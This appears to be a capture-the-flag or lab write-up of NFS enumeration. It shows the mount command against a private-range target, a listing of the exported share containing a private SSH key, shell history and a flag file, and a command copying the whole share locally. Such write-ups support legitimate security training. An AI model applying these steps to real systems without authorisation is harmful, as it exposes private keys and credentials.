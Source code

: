 ## 📂 NFS Enumeration and Mounting

After identifying NFS services on ports 111 and 2049, I probed for exported shares and successfully mounted one containing potentially sensitive files.

Mount Command Used:
```php
sudo mount -v -t nfs -o vers=3 10.150.150.134:/srv/exportnfs /tmp/mounty
```
Command Breakdown
```
-t nfs: Specify NFS filesystem type

-o vers=3: Force NFS version 3 for compatibility

/srv/exportnfs: Remote export path

/tmp/mounty: Local mount point

Mounted Share Contents:
```
The Contents of the share
```
total 32
drwxrwxrwx  5 nobody  nogroup 4096 Oct 29  2019 .
-rwxrwxrwx  1 nobody  nogroup  667 Oct 29  2019 .bash_history
drwxrwxrwx  5 nobody  nogroup 4096 Oct 29  2019 .config
-rw-r--r--  1 dr4xven dr4xven   41 Oct 22  2019 FLAG49
-rw-r--r--  1 dr4xven dr4xven 1675 Oct  3  2019 id_rsa
-rw-r--r--  1 dr4xven dr4xven  397 Oct  3  2019 id_rsa.pub
```

Actions Taken:
I copied the entire share locally for offline inspection:
```
sudo cp -r /tmp/mounty/ .
```
![screenshot](assets/screenshots/FullMounty/2.webp)
